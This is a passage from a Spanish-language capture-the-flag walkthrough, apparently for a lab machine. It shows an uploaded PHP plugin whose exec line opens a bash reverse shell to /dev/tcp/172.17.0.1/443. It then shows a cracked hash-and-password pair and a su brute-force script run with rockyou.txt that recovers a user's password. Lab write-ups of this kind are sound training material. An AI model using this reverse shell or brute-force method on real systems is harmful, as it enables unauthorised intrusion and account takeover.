 ```php
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

-----------------------------68612445532931878114124137394
Content-Disposition: form-data; name="destinatario"


-----------------------------68612445532931878114124137394
Content-Disposition: form-data; name="asunto"


-----------------------------68612445532931878114124137394
Content-Disposition: form-data; name="mensaje"


-----------------------------68612445532931878114124137394--

```

Al entrar al archivo desde uploads y ponernos en escucha ya estamos dentro como www-data.
# ESCALADA PRIVILEGIOS

Al ver los usuarios vemos que tenemos a luisillo, usamos la herramienta de antes para sacar su contra.

`761bb015d7254610f89d9a7b6b152f1df2027e0a:mundodecaramelo`

No nos sirve y no encuentro manera de escalar privilegios, optamos por usar fuerza bruta.
Nos descargamos : https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.py

```bash
www-data@bba84aac9d2c:/tmp$ ./Linux-Su-Force.sh luisillo_o rockyou.txt 
Contraseña encontrada para el usuario luisillo_o: 19831983

```

**Usuario -> luisillo_o**
**Contra -> 19831983**

YA ESTAMOS COMO LUISILLO

Viendo cosas sobre el usuario vemos lo siguiente:

```
uid=1001(luisillo_o) gid=1001(luisillo_o) groups=1001(luisillo_o),42(shadow)
$ whoami
luisillo_o
$ id
uid=1001(luisillo_o) gid=1001(luisillo_o) groups=1001(luisillo_o),42(shadow)

```
